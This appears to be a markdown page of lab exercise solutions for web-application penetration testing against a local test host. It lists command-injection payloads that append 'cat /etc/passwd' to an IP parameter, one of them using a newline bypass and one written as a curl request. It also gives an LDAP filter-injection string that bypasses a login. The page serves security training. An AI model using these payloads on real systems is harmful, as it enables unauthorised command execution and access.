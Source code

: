 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

## LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |